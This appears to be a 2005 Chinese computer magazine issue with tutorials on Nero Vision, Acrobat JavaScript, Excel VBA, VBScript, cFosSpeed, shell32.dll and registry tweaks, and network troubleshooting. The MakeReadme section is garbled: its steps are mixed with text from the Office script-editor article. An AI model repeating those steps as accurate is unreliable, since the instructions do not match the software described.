视频片段添加完毕，为使电影画面更加丰富，可以给影片素材添加上一些特殊效果。在右上角素材窗口上，单击窗口上的“显示视频效果”选项卡（即带有闪电形状的图标），进入到“显示视频效果”面板中，点击上方的下拉按钮，从中选择“过滤器”类别，其下会显示出数十种视频特效，如：边缘光亮化、波纹、旋转等。点选“显示视频效果”时，下面的编辑区会自动切换到时间线模式，可直接将某一效果拖放到时间线“效果”轨道的适当位置上，此时单击显示窗口下方的播放按钮（三角形图标）预览影片，当视频播放到效果图标所在位置时就会显示出视频特效来，非常有趣。

拖动效果图标可以调整它在“效果”轨道中的位置，将光标移到效果图标的左侧或右侧，光标将变成双箭头状，此时按下鼠标左键拖动，可以任意调整效果的长度，点选效果图标后按Delete键则可以清除效果。这些操作方法同样适用于对视频片段的调整。

- 第五步：添加转场效果

电影剪辑中很大一部分工作，是为视频片段添加转场效果。在素材窗口上单击“显示转场”选项卡（即最后那个图标），可以看到Nero Vision已经提供了“划入”、“渐变”、“3D”、“其他”四大类计有数十种转场特效，单击上面的下拉按钮可以选择类别。为视频片段添加转场特效的方法非常简单，将编辑区切换到“情节串联图板”模式，然后将需要的转场特效拖放到两个视频情节之间的小方块中即可。

## 软件•实用软件

## 电脑爱好者

第六步：为影片添加文字片头及片尾。接下来为影片添加一个文字片头。在素材窗口上单击“显示文本效果”选项卡（显示有“A”字样的图标），此时编辑区会自动切换到时间线模式。Nero Vision提供了多种文本效果，选择其中一种文本效果（如“跳动的字符”项）将其拖到时间线的“文本”轨道中，放开鼠标时会弹出“属性”对话框，可以在“文本”框中输入文字标题（如输入：“晶晶的真实世界”），并设置文本的其他属性，最后关掉对话框即可，可单击播放按钮预览一下效果。将文本效果拖放到时间线的最前面，就可以作为影片的片头了。同样方法，可以为影片加上字幕及文字片尾等。

第七步：为影片配上好听的背景音乐。我们还可以为整部电影配上好听的背景音乐。单击素材窗口上的“显示媒体”选项卡（即第一个图标），然后单击其下方的“浏览媒体”按钮（左起数第一个按钮），从弹出菜单中选择“浏览”命令，然后在浏览窗口中选择所需要的音乐文件，本例，我选择的是“让我们荡起双桨”这首曲子（支持WAV、MP3等多种音频格式），单击“打开”将其添加到“我的媒体文件”中，再把它拖放到时间线“音频1”或“音频2”轨道上即可，可以根据需要调整它的位置。

第八步：导出电影。最后，单击界面最下方的“导出”按钮，进入到“导出视频”面板中，根据自己的需要选择一种导出模板（本例选择的是“VCD”），并设置好“输出文件”以确定电影文件保存的路径，然后单击“导出”按钮即可将电影导出并刻录成VCD光盘了。

## 实例2：声情并茂浏览照片

因为DC要比DV更为普及，所以大多数电脑中积累更多的则是自己拍摄的数码照片。我们同样可以使用Nero Vision将数码照片制作成幻灯片VCD，使得这些照片不仅在电脑上可以欣赏，还可以在VCD/DVD中播放，并可以加上优美的背景音乐。

第一步：启动Nero Vision，在开始界面中单击“制作幻灯片”下的“视频光盘”选项，进入到“幻灯片”编辑界面。可以看出，幻灯片制作的界面与视频制作的界面大体相同，这样有了前面制作视频电影的经验，下面的操作就非常容易上手了。

第二步：单击右侧素材窗口下方的“浏览媒体”按钮，从弹出菜单中选择“浏览”命令，然后在打开的“文件浏览器”对话框中找到所需的数码照片，并将它们导入到当前项目中来。

第三步：在幻灯片制作界面下方的编辑区中，同样也有两种模式：一种是“显示画面”模式，它是专门用来编辑数码照片的，可直接将素材拖放进去；另一种是“显示音频”模式，专门用来存放幻灯片播放时的音乐，通过“浏览媒体”按钮导入音乐素材，再把它拖放到音频轨道上即可。

第四步：单击素材窗口上方的“显示转场”选项卡，将想要的转场效果拖放到图片与图片之间的小方块内，即可完成图片转场效果的添加了。按下显示窗口下方的播放按钮，可以预览效果。

第五步：最后单击下方的“导出”按钮，并选择一种导出模板（如选择“VCD”），设置好输出文件的路径，导出电影文件即可。可以将导出的文件刻录成VCD光盘，一张有声有色的数码幻灯片就制作完成了。

## 实例3：让Photoshop稍息

在制作图片VCD时，有些图片可能需要小小修改一下，这时要是启动Photoshop这样的大软件来处理，未免太浪费时间和精力了，新版的Nero 7中也开始提供简单的图像编辑功能，并且非常简单好用。下面就举一个简单的实例。

第一步：从程序组“Nero 7 Premium → Photo and Video”中启动Nero PhotoSnap，单击主界面左上角的“打开”按钮（左侧第一个图标），然后在“文件浏览器”中找到一张需要处理的照片。这张照片是在清晨拍摄的，由于四周的光线不足，另外人物还是背对着阳光，所以整个人物看起来偏暗，下面我们就来对这张照片进行后期处理，使人物走出“黑暗”。

第二步：单击界面右侧“工具”下方的“曝光”选项，进入到“颜色/曝光”面板中，单击界面右侧的“渐变曲线”标签，然后通过适当地调整曲线，就可以让人物变得清晰起来。这一功能与Photoshop中的“曲线”调整相似，具体操作就不细说了。

第三步：一边调整一边观察左侧的图像，效果满意后，单击“应用”按钮即可完成对这张照片的后期处理了。同时我们会发现图像窗口左上角多出了好几个标签，如“当前”、“预览”、“拆分预览”等，分别点击，就可以比较修改前后的效果，非常直观形象。

Nero PhotoSnap还提供了裁剪、自动修复、红眼消除、颜色调整等多种功能，简单的数码照片后期处理足以应付了，大家不妨试试看。

（吉林 图们月长圆）

## 插上翅膀的Acrobat

在本刊今年第13期上的“软件你别牛”中，介绍了Acrobat 7.0专业版的一些基本应用。今天，我们将以此为基础，再为Acrobat插上“双翅”，进一步学习它的高级应用：Acrobat JavaScript。

## 实例：打造专业效果的PDF电子书

大多数人对JavaScript并不陌生，稍懂得一点网页制作知识的人都知道，它是一种简单易用的脚本语言，能为网页添加许多特殊效果和功能。与此类似，Acrobat JavaScript则是为PDF文档添加特殊功能。大家不用担心它有多难学，其实它的语法与标准JavaScript相似，只不过多了一些PDF文档所特有的对象类型及方法而已。

下面的这个实例，是笔者尝试制作的一本PDF电子书，共有8页的内容（《电脑爱好者》的一期“特别话题”）。在第一页上我分别放置了三个按钮，“全屏/窗口显示”、“自动滚动”、“退出”。单击“全屏/窗口”按钮即可全屏显示电子书（没有窗口边框、标题条、菜单条等元素，完全显示页面内容）；单击“自动滚动”按钮则页面会自动慢慢向上滚动；单击“退出”可关闭电子书。

虽然这些功能都可以在菜单中调用，但是直接通过PDF文档页面上的点击来得到，会使我们的PDF电子书显示得很专业的样子。

第一步：启动Acrobat 7.0专业版，并打开一个PDF电子书文档。本例所使用的PDF文档的首页为空白，用来放置前面我们所说的三个按钮。

第二步：如图1所示，单击按下按钮工具（如果没有发现该按钮，可在工具栏空白处右击，再勾选“高级编辑工具”项即可显示）。将光标移到页面上，画出一个矩形，画好后放开鼠标键，会弹出一个按钮属性对话框。在“一般”选项卡中，“名称”将是按钮在脚本中被引用的名字，最好用英文名称；“工具提示”中的内容，是当光标移到该按钮上时显示出的内容提示；其他可选默认值。

第三步：在“外观”选项卡中，主要用来设置按钮的外形，如外框颜色、填充色、字体等。在“选项”选项卡中，“布局”我们选的是“仅标签”项，如果选择带“图标”的选项，还可以通过下面的“选择图标”为按钮添加图案装饰；在“标签”中输入的文字，将显示在按钮上，本例输入的按钮文字是：“全屏/窗口显示”。

第四步：本例最关键的是“动作”选项卡中的设置。触发器选择“鼠标松开”，也就是单击放开鼠标键后，开始执行预设的动作。“选择动作”为“运行JavaScript”项，然后单击“添加”，又会弹出一个脚本编辑对话框，在其中输入代码（见图2）：

`app.execMenuItem(“FullScreen”);`

`app`是Acrobat JavaScript中特有的一个对象，`execMenuItem`则是该对象下面的一个方法，从名字可以猜出，它是用来执行软件中的菜单命令的。输入代码后确认返回。

## 芝麻开门

## 无限扩展“app.execMenuItem”

通过“app.execMenuItem”语句，就可以在脚本中随意调用Acrobat及其Reader浏览器软件中的大部分菜单命令了，如自动滚动、关闭、打印、搜索、打开书签窗口等。本例中的参数“FullScreen”对应的就是Acrobat（或Reader）菜单“视图→全屏”命令。那么如何确定某一菜单命令所对应的英文名称呢？可按如下的办法查找：

1.  执行菜单“高级→JavaScript→调试程序”命令（快捷键为Ctrl + J），调整出调试窗口。
2.  第一次启用它，会询问你是否启用控制台，点“是”确认。
3.  如图3所示，输入代码：

`app.listMenuItems();`

4.  以上代码主要就是要获得Acrobat的所有菜单项目的。按小键盘上（注意是小键盘上）的回车键，即可执行该代码并返回结果，形式有点乱，可复制到Word之中。以下就是从该返回结果中截取的片段：
    ```
    app.listMenuItems();
    [cName:File; oChildren:[[cName:Open],[cName:NewDocument ...[cName:Save],[cName:SaveAs]...[cName:Quit]]
    ```
    `cName`指菜单，`oChildren`指子菜单。冒号后面即菜单命令所对应的名字了，从`File`（文件）、`Open`（打开）、`SaveAs`（另存为）等单词，很容易推断出它所对应的命令来。

第五步：单击工具栏上的手形工具（或其他工具），按钮将从编辑状态转为运行状态，此时单击此按钮，即可进入全屏显示了。再次点击该按钮，又会返回窗口状态。如果想重新编辑按钮，可再次点按工具栏上的按钮工具图标重新回到编辑状态，右击画好的按钮，选择“属性”就可以了。

以同样方法添加另外两个按钮，当然还可以增加一些其他的按钮，激活那些你觉得会经常使用的菜单命令，增强电子书的功能。更进一步，使用自己绘制的图标来替换默认的按钮图形，将会使你的电子书显得更专业、更酷。

**网络大补贴**

国内有关Acrobat的网站比较少，所以下面介绍的主要是国外的一些网站资源。

网址：http://partners.adobe.com/public/developer/en/acrobat/sdk/AcroJS.pdf
简介：Acrobat（7.0）JavaScript官方语言参考，包含所有的对象及其方法、属性的说明资料。

网址：http://partners.adobe.com/public/developer/en/acrobat/sdk/AcroJSGuide.pdf
简介：Acrobat（7.0）JavaScript使用指南。

网址：http://www.planetpdf.com
简介：此网站上可以找到很多Acrobat使用技巧，并收集有很全面的第三方插件。

（北京 一页）

## 以不变应万变，自定义函数出奇招

故事：截至本期，西游后记之Excel函数系列正好十期了。这期间我们随着八戒一起，几乎涉及了Excel函数方方面面的内容。作为本系列的最后一讲，八戒将再教给大家一个以不变应万变的本事：当Excel自带的函数解决不了问题，或者解决起来很麻烦的时候，我们可以通过自己编写的函数来解决问题。听起来似乎有些玄妙，其实就是使用Excel内嵌的VBA编程语言而已。

## 实战：考试成绩自动变等级

本例自定义的函数，可将学生的考试成绩自动分成A（90分以上）、B（80分以上）、C（70分以上）、D（60分以上）、E（60分以下）五个等级。这个实例非常简单，主要目的是帮助大家熟悉VBA自定义函数的制作过程。

第一步：启动Excel2003，打开学生成绩登记表工作簿（见图1）。

第二步：执行“工具→宏→Visual Basic编辑器”命令打开Visual Basic编辑窗口。也可以右击工作表名称（如：Sheet1），在右键菜单中选择“查看代码”选项，也可以快速进入Visual Basic编辑窗口。

第三步：执行“插入→模块”命令，插入一个新模块（默认名称为“模块1”），然后将下述代码输入右侧的代码编辑区域中（见图2）。注意：下面代码中单引号的后面为注释语句，要不要都可以。

```
Function dj(cj)
    'dj为自定义函数的名称，cj是用户参数
    Select Case cj
        'Select为VBA中的选择语句
        Case Is >= 90
            '当cj大于等于90时，函数返回字符“A”
            dj = "A"
        Case Is >= 80
            '当cj大于等于80时，函数返回字符“B”
            dj = "B"
            '下面的语句依此类推
        Case Is >= 70
            dj = "C"
        Case Is >= 60
            dj = "D"
        Case Is < 60
            dj = "E"
    End Select
    '结束选择语句
End Function
'结束本函数
```

输入完成后，关闭Visual Basic编辑窗口返回，代码会被自动保存。自定义函数格式如下：

```
Function 函数名称(参数变量)
VBA代码
End Function
```

关键字`Function`表示定义的是一个函数，函数名称（本例为：`dj`）就是我们以后可以在工作表中引用的名称，可以按照自己的意愿随便取，它与Excel内置函数名称（如求和函数：`SUM`）的作用是一样的。函数最大的一个标志就是函数名称后面一定要带有一对圆括号，如果函数需要参数的话，参数就放置在圆括号之内。中间则是任意的VBA代码，最后以`End Function`来表示一个函数的结束。

**小提示**

上述代码也可以改成以下形式，使用`If`语句来代替`Select`语句，完成的效果一样：

```
Function dj(cj)
    If cj >= 90 Then
        '如果cj大于等于90，然后返回字符A
        dj = "A"
    ElseIf cj >= 80 Then
        '否则如果cj大于等于80，然后返回字符B。以下依此类推
        dj = "B"
    ElseIf cj >= 70 Then
        dj = "C"
    ElseIf cj >= 60 Then
        dj = "D"
    Else
        dj = "E"
    End If
    '结束If语句
End Function
'结束整个函数
```

第四步：自定义好的函数，可以像使用Excel内置函数一样进行调用。在如图1所示的成绩表中，我们来将语文成绩转换成等级，并保存在E列中。在E2单元格中，输入公式：“=dj(D2)”（不含引号），回车确认后，第一位学生的成绩就转换成等级A了。拖动E2单元格右下角的填充柄，将这个公式复制到E列其他单元格中，其他学生的等级也会自动显示出来（见图3）。

**小提示**

默认情况下，在Excel中自定义的函数只能在定制的工作簿中调用，如果在其他工作簿中也想要使用，必须将其制作成“加载宏”，然后加载一下就行了。

第一步：执行“文件→另存为”命令，打开“另存为”对话框，将“保存类型”设置为“Microsoft Office Excel加载宏(*.xla)”，然后取名（如：“成绩等级”）保存。系统默认会将加载宏保存到“AddIns”文件夹中。

第二步：执行“工具→加载宏”命令，选中上一步制作的加载宏（“成绩等级”），确定返回。

第三步：经过这样处理后，上述自定义的函数就可以在Excel所有工作簿文件中直接调用了。

### 一点通：自定义函数揭示身份证号码里的秘密

每个人的身份证号码中，都保存了相关的个人信息，如：性别、出生年月、籍贯等。15位身份证号码的第15位表示性别，奇数为男，偶数为女。18位身份证号码的第17位表示性别，奇数为男，偶数为女。下面的自定义函数，首先通过`If`语句来判断是15位还是18位的身份证，然后依据得到的结果提取相应位置的数字，用来判断该身份证持有人的性别。

```
Function xb(sfzd)
    If Len(sfzd) = 15 And Mid(sfzd, 15, 1)/2 = Int(Mid(sfzd, 15, 1)/2) Then
        xb = "女"
    ElseIf Len(sfzd) = 15 And Mid(sfzd, 15, 1)/2 <> Int(Mid(sfzd, 15, 1)/2) Then
        xb = "男"
    ElseIf Len(sfzd) = 18 And Mid(sfzd, 17, 1)/2 = Int(Mid(sfzd, 17, 1)/2) Then
        xb = "女"
    Else
        xb = "男"
    End If
End Function
```

注意：调用以上函数的格式为：“=xb(A1)”（不含引号），其中A1假设为输入了身份证号码的单元格，一定要将它的单元格格式设置为“文本”。

### 结束语

VBA编程博大精深，仅通过一两个实例还不足以显示出它的巨大魅力。小编计划在2006年的杂志中，做一个VBA编程系列教程，朋友们如果感兴趣的话，欢迎给我们提出宝贵的意见。

（安徽 陈秀峰）

## 千变万化的剪贴画

使用Powerpoint 2003时，经常会在演示文档中插入漂亮的剪贴画来进行修饰。可并不是所有剪贴画都适合你的要求，如果感觉当前使用的剪贴画的颜色搭配不太合理（或者与演示文档的内容不协调）时，可以随心所欲改变剪贴画的颜色。点击插入的剪贴画，此时会显示出“图片”工具栏（如果没有显示，可右击此剪贴画，再选择“显示‘图片’工具栏”），单击“图片”工具栏上的“图片重新着色”按钮，在随后出现的对话框中便可任意改变图片中各个元素的颜色了。

（木头人）

## 她是属龙还是属兔？——知年龄猜属相

2005年第22期《我和电脑玩猜拳》一文中，我们已经了解了内存就像一个有好多排好多间排列整齐的库房的大仓库，变量就是这个大仓库中一间被起了名字用来保存货物的库房。如果现在有几间（可能不是连续的）用于保存同类货物（如生活用品）库房，可不可以只起一个名字（就像“生活用品”这个名称）呢？答案当然是可以的——这就是下面要说的：数组。

```
猜一猜属龙还是属兔——做游戏学数组

将以下文字输入到“记事本”中，然后将其保存为“游戏.vbs”文件（代码下载：http://www.newhua.com/cfan/200523/200523vbs.rar），双击运行即可开始玩这个游戏了。

Const BeginYear = 1996, AnimalsNumber = 12
Dim BirthAnimalsArray, WordFigureArray,
MyAnimalsArray(11), YourAge, YourValue, MyVar,
NowYear, BirthYear, MyStr
BasicAnimalsArray = Array("鼠","牛","虎","兔","龙",
"蛇","马","羊","猴","鸡","狗","猪")
WordFigureArray = Array("〇","一","二","三","四",
"五","六","七","八","九")
NowYear = Year(Now)
MyVar = NowYear - BeginYear
If MyVar < 0 Then
MsgBox "系统时钟设置错误，程序终止。", 16, "错误"
Wscript.Quit
End If
MyVar = MyVar Mod AnimalsNumber
For I = MyVar To 0 Step -1
MyAnimalsArray(MyVar - I) = BasicAnimalsArray(I)
Next
For I = AnimalsNumber - 1 To MyVar + 1 Step -1
MyAnimalsArray(MyVar + AnimalsNumber - I) =
BasicAnimalsArray(I)
Next
Do
YourAge=InputBox("请输入一个岁数（虚数）:" & vbCrLf & "计算机将猜出这个岁数人属什么生肖。","猜一猜生肖小游戏")
If Not IsNumeric(YourAge) Or IsEmpty(YourAge) Or
YourAge <= "0" Then
YourValue = MsgBox("输入无效。" & vbCrLf & "继续输入吗？", 36, "猜一猜属相")
Else
BirthYear = NowYear - YourAge + 1
MyStr = YourAge & " 岁生于公元"
If BirthYear < 1 Then
BirthYear = BirthYear * (-1) + 1
MyStr = MyStr & "前"
End If
For I = 1 To Len(BirthYear)
MyStr = MyStr & WordFigureArray(Mid(BirthYear, I,
1))
Next
MyStr = MyStr & "年春节后，属 " & MyAnimalsArray
((YourAge - 1) Mod 12) & "。若生于春节前，则属：" & MyAnimalsArray
(YourAge Mod 12) & "。"
MsgBox MyStr, 64, "猜出的生肖"
YourValue = MsgBox("继续输入吗？", 36, "猜一猜属相")
End If
Loop While YourValue = vbYes
```

## 通透理解数组

在 VBS 脚本中数组是一组变量的集合，它们可以是不同类型的数据。VBS 脚本只有一种数据类型，称为 Variant（变型），就像所有的货物统称为“物品”一样。Variant 是一种特殊的数据类型，最简单包含数字或字符串信息。同样，Variant 除数字或字符串以外，可以表示多种多样的数值信息（numeric information），就像“物品”包含家具、电器、服装、机器等等种类繁多的物品一样，我们把包含的数值信息类型称为 Variant 的数据子类型。Variant 的数据子类型包括：空（Empty，未初始化的 Variant）、空值（NULL，不包含任何有效数据的 Variant）、布尔值（True 或 False，即“真”或“假”）、字节、整数、货币、长整数、单精度浮点数、双精度浮点数、日期（时间）、字符串、对象和错误号共 13 种数据类型。

**数组（array）**
数组就是几间（一组）具有从 0 开始的序号可以顺序索引的库房。这组库房中每个库房具有唯一索引号，调用进库出其中一个库房的货物不影响其他库房的货物。就像上面脚本中 BirthAnimalsArray、WordFigureArray 和 MyAnimalsArray（11） 三个数组，这个就像在 0 号、1 号和 2 号库房保存着电器、服装和摩托车，而库房名都叫“捷达运输”，当运输车只要查询“捷达运输（0）”或“捷达运输（1）”就可以获得 0 号或 1 号库房的货物的信息。在数组中称 0 号、1 号和 2 号库房为数组元素，改变数组中一个元素不影响其他元素。

**声明数组（declare array）**
数组分为静态数组和动态数组。上面脚本中 BirthAnimalsArray 和 WordFigureArray 属于动态数组，MyAnimalsArray（11） 属于静态数组。声明数组方式与声明变量一样，使用 Dim 语句、Public 语句和 Private 语句在脚本中显式或隐式声明。数组的下标总是 0，上标是数组元素个数 -1。声明静态数组如 Dim MyArray（9） 声明了一个 10 个元素的数组。数组还可以是多维的，如 MyArray（9, 9, 9） 声明了一个三维每维 10 个元素的数组。静态数组在声明时就分配了内存，必须使用赋值语句初始化数组元素，如 MyArray（5） = 10，即把 10 赋值给 MyArray 数组中索引号为 5（第 6 个） 的元素。动态数组要使用 ReDim 语句来确定数组的维数和元素个数，然后才能分配内存；如 Dim MyArray（），ReDim MyArray（5）。

（维克达电脑工作室 张宗闯）

## 和BT时无法打开网页故障说“拜拜”

本刊2005年第18期《网络加速“七剑”下江山》一文中介绍了cFosSpeed的使用方法，之后有很多朋友来信询问这款软件的详细使用方法，因此这里就再简单介绍一下这款软件的使用方法。

### 软件原理

不少ADSL用户应该都会有体会：在BT时打开网页很困难，不过我们应该根据ADSL的原理，上传和下载是互不影响的，使用时出现这种情况是什么原因呢？其实，这是由于Windows处理TCP/IP数据包不完善所致。数据封包没有优先级考虑，从而在一些网络条件下会出现网络故障，表现出来的现象就是上传突然降低，通常只有重启Modem才能解决问题。

而cFosSpeed为我们提供了一种新的解决方案——Traffic Shaping（封包重新排序），其实它就是网卡驱动，用来代替Windows自带的有问题的驱动程序。

### 软件的安装与使用

这里我们介绍的是cFosSpeed比较稳定的2.02版，而不是最新版本。

第一步：从http://www.newhua.com/cfan/200523/cfoscred.rar下载软件。
第二步：确认你的ADSL网络没有任何流量，既无上传，也无下载。右击系统托盘图标，选择“设置→连接”，在打开的窗口中确认Traffic Shaping功能已经打开（见图）。
第三步：右击系统托盘，在弹出菜单中选择“删除关于线路的数据”。
第四步：全速下载，找一个速度很快的下载链接，注意不要使用P2P类软件，下载30秒，停止下载。
第五步：全速上传，发一封E-Mail，在邮件中加入超过5MB的附件，发送大约60秒后，停止上传。现在cFosSpeed已经记录下你的ADSL特性参数。至此cFosSpeed已经设置完成，现在再BT的时候就不会出现网页打不开了的情况了。

## 办公室里的“打印故事”

### 漂白激光打印文档的“包公脸”

单位新购入一激光打印机，刚使用没两天便出现了严重故障，打印出来的纸变成了“包公脸”：整篇文档全变成了黑色，甚至连文档背部都有黑黑的碳粉痕迹，更别提其上模糊不清的字迹了。

送修被告之，无任何故障，这可就奇怪了。想来想去，感觉是周围环境出了问题，经过仔细查找，发现这台打印机被放到窗台附近，白天工作时间，强烈的阳光直接照射到打印机上，而激光打印机的核心元件是感光硒鼓，由于阳光的强烈照射致使感光硒鼓工作不正常，所以打印出来的文档都成了“包公脸”。吃一堑，长一智，赶紧将打印机挪到太阳照不到的地方，打印果然又正常了。在这里也提醒大家，切勿让激光打印机暴露在强烈的光线照射下，否则打印机工作不正常是小，要是毁了硒鼓，损失就大啦。

### 节省打印纸 从每“一张”做起

小林是一家公司的文秘，经常要处理一些Word文档，工作中她经常遇到这样的情况：文档的页面、版式都已经排好了，但却发现最后一页只有几行内容，这样打印出来势必会造成纸张浪费，尤其是需要成批打印这类文档的时候。怎样才能在不改变前面版面格式的情况下省下这一张纸呢？同事中的一位Word高手告诉她，其实很简单，在预览模式下，单击工具栏上“缩小字体填充”按钮，即可将最后几行缩至前几页的文档里，然后单击“打印”按钮打印即可。这样就会减少很多不必要的浪费了。不过要注意，这一技巧适用于页数较多的文档，如果文档总共只有一两页，Word的自动调整可能会失败，这时就只能自己手动调整版式了。

（悠悠我心 木头人）## 按就建出‘花’来

如何让每次新建文本文件时，不再出现那烦人的‘新建 文本文档.TXT’，而是‘说明.TXT’呢？

## 手动修改

要想修改新建时默认的文件名，很简单，只要进行几步操作就可以完成了。

-   第一步:先从http://nj.onlinedown.net/soft/9594.htm下载eXeScope。将C:\\WINDOWS\\System32\\shell32.dll复制到其他文件夹下，如E:\\。



-   第二步:用eXeScope打开E:\\shell32.dll，依次在左侧窗格展开‘资源→字符串→1895’，删除右侧窗格中的‘30316，新建’项(见图1)，保存退出。

-   第三步:将改好的shell32.dll，在DOS或其他系统中替换C:\\WINDOWS\\System32\\及C:\\WINDOWS\\System32\\dllcache\\下的同名文件。



-   第四步:再新建一个文本文件，你会发现文件名中的‘新建’已经消失了，接下来要做的就是将文件名中剩下来的‘文本文件’改为‘说明’。打开‘注册表编辑器’，依次定位至[HKEY_CLASSES_ROOT\\txtfile]项，修改FriendlyTypeName主键的键值为‘说明’(不含引号)(见图2)。



在‘右键菜单名’中输入显示在右键菜单中的名称，在‘生成文件名’中输入最后生成的文件名(见图4)。



## 改就轻松改

上面已经为大家讲了修改的原理，下面为大家介绍一个简单的方法——MakeReadme。

-   第一步:从http://www.newhua.com/cfan/200523/makereadme.zip下载软件。

-   第二步:解压缩软件后，运行MRSet.exe，‘添加和删除功能’单选框，再单击‘下一步’按钮。第二步:勾选‘选择应用程序的高级自定义’复选框，单击‘下一步’按钮。然后找到‘Office工具’，单击该分类下面的‘HTML编辑器’，选择‘从本机运行全部程序’，然后单击‘更新’按钮，按提示操作即可。

-   第三步:现在，新建文件即可，如果没有修改，则是由于TXT格式关联了其他类型文件，只能使用前面的手动修改方法进行修改。当你不使用时，只要用UnMRreg.exe就可以恢复原来的设置了。

(Gamer)

## 找回被遗忘的脚本编辑器

笔者是个编程菜鸟，有时需要用Dreamweaver学点做网页的知识，但该软件的‘代码’环境实在是太差了，字特别小，有点损害视力。要是有VS.net那样的编程代码环境就好了。笔者翻山越岭，终于找到了一个，其实它就在Office 2003里面。那么怎么把它安装上呢？

### 1. 千呼万唤始出来——安装脚本编辑器

-   第一步:打开‘控制面板’中的‘添加/删除程序’，单击‘Microsoft Office 2003’旁的‘更改’按钮启动Office安装程序。然后单击‘添加或删除功能’单选框，再单击‘下一步’按钮。

-   第二步:勾选‘选择应用程序的高级自定义’复选框，单击‘下一步’按钮。然后找到‘Office工具’，单击该分类下面的‘HTML编辑器’，选择‘从本机运行全部程序’，然后单击‘更新’按钮，按提示操作即可。

小提示 如果需要.NET语言提示支持，安装‘只能标记.NET可编译性支持’和‘Microsoft Forms 2.0 .NET可编译性支持’即可。

### 2. 与Dreamweaver联姻

打开Dreamweaver，按下Ctrl+U，打开‘首选参数’对话框，然后单击左侧‘分类’的‘文件类型/编辑器’，然后在‘外部代码编辑器’文本框中键入‘C:\\Program Files\\Microsoft Office\\OFFICE11\\MSE7.EXE’(不含引号，请根据安装目录修改文件保存位置)，单击‘确定’按钮即可。

当要使用脚本编辑器编写代码时，单击‘编辑’菜单的‘使用MSE7编辑’即可看到类似.net编辑器的东东了。

小提示 如果想单独使用MSE7脚本编辑器，在桌面上建立一个快捷方式即可，路径就是上面文本框键入的路径。

(哈尔滨 郑浩宇)

## 能上QQ但不能上网问题解析

有许多用户常常遇到这样的问题:网络连通后能正常登录QQ聊天，但却无法用IE打开网页，总提示‘该页无法显示’。这个问题几乎被一些人看成是‘绝症’，常见的解决方法就是重装系统。其实，造成这种现象可能有几种原因，只要对症下药，还是很好解决的。

### 原因一:系统Winsock通讯组件故障

出现能上QQ不能打开网页有大约80%的情况都是由于Winsock组件被破坏。组件被破坏的原因有几种:病毒原因、不完善的杀毒软件清除病毒的后遗症、盗版Windows XP、安装操作系统补丁故障及非正常的系统还原等。如果是Windows 2000/XP，直接点击‘开始’菜单，选择‘运行’，输入‘sfc /scannow’并确定;如果是Windows 98/me，则输入‘sfc’。系统会自动检查被替换过的系统组件并予以恢复，其间需要用户插入操作系统的安装光盘。

另外有一款免费的修复软件也可以一试，名字叫做‘WinSock Fix’(下载地址:http://www.onlinedown.net/soft/35272.htm)。只需运行这个软件，并按照它的提示一步一步进行操作一般都可以解决由于Winsock组件损坏造成的无法打开网页故障。

### 原因二:域名解析错误

域名解析错误也是无法打开网页的常见原因之一。计算机进行域名解析时先要访问本机的Hosts文件，然后再登录到DNS(域名解析服务器)上进行查询。因此先要检查本机的Hosts文件，通常一些病毒会修改这个文件以屏蔽一些网站，特别是反病毒网站的访问。Hosts文件在用户系统目录中，默认为‘C:\\Windows\\System32\\Drivers\\etc’目录下，我们可以用‘记事本’将其打开。一般情况下，‘127.0.0.1 localhost’以下的内容都可以删除。

### 原因三:IE浏览器被破坏

如果用QQ能上网，用其他浏览器比如Firefox、Opera也能打开网页，只有IE不能浏览，则多半是浏览器本身被损坏了，需要重新安装IE。

### 原因四:不正确的代理设置

有时设置错代理服务器也可能导致网页无法打开。我们可以在IE中‘Internet选项’下的‘连接’设置中查看和修改代理服务器的设置。

### 原因五:病毒问题

真正由病毒原因直接造成网页无法访问的情况目前不是很多，但有些编写不完善的病毒、木马会注入IE进程当中，致使用户打开IE后机器资源占用100%，机器呈假死状态。遇到这种情况，要升级杀毒软件到最新版本进行杀毒。

上面列举了几种可能导致计算机能上QQ却无法打开网页的原因及解决办法，基本可以解决这个问题。但仍然可能会有一些其他因素造成机器出现这种故障，这时建议用户不要随便格式化计算机，可以询问周围对计算机比较熟悉的朋友帮忙解决。

(瑞星工程师 史瑀)

## 爱你在心口难开 JPG 帮你解难题 —— 制作会唱歌和藏情书的 JPG 文件

JPG 是一种图片文件格式，这是大家都知道的。不过我的 JPG 文件不仅能看，而且里面还隐藏着不被别人所知的秘密哦，它可以帮我给 PLMM 传情达意，送歌曲、送情书都能干。怎么样，你一定感到很新奇吧，是不是也想尝试一下呢？下面我们就来动手制作吧。

### 会送情歌的 JPG

想一想，当你把自己的照片发给 MM 后，MM 不仅能看到你，还能听到你送给她的情歌，那将会是多么“浪漫”的事情呀！现在通过一款叫做 AudioJPEG Player and Recorder（简称 AudioJPEG）的软件，就能制作出这种神奇的 JPG 文件，不仅可以和普通的 JPG 图片一样在各种看图软件上浏览，而且在安装了 AudioJPEG 后，还能在 IE 浏览器或资源管理器右键菜单中直接播放 JPG 文件中的音频。不过缺点就是对方也要安装 AudioJPEG。

AudioJPEG Player and Recorder 小档案
软件版本: 1.0.1.24
软件大小: 5388KB
软件性质: 共享软件（只能录制 5 秒声音文件）
适用平台: Windows 9x/2000/XP
下载地址: http://nj.onlinedown.net/soft/26202.htm

运行桌面上的“AudioJPEG Studio”快捷方式打开程序界面，根据界面中提示的三个步骤(Step 1~ Step 3)，我们就能很快制作出会送情歌的 JPG 图片了。

-   第一步：在 Step 1 下单击第一个按钮“Open AudioJPEG other Imager”；选择要制作的 JPG 图片文件（其实 AudioJPEG 还可以支持 BMP、PCX 等其他常见的图片文件格式），这里我给 MM 送上了大红的玫瑰花。

-   第二步：在 Step 2 下单击第一个按钮“Attach an Audio file to this Image”，选择要添加的音频文件（MP3、OGG、WAV 等）格式。选择文件后会弹出音频压缩对话框，应根据添加的音频类型选择相应的压缩率。“Yes, Compress as voice”使用的是 16kbps 比特率压缩，适合语音类型，音质较差；而“Yes, Compress as Music”则采用 128kbps 比特率进行压缩，适合音乐类型，音质较好；如果选择“No, Keep the original format”，则会以音频文件原有的格式进行保存，不重新压缩，对于 MP3 文件通常不必再进行压缩。

小提示
如果你找不到合适的歌曲，还可以直接在 AudioJPEG 中录制一段你的“真情表白”添加到 JPG 文件中：先在右边的下拉框中选择“Record as Voice (16Kbps)”，然后单击第四个按钮“Record New Audio from the Microphone”进行录音。

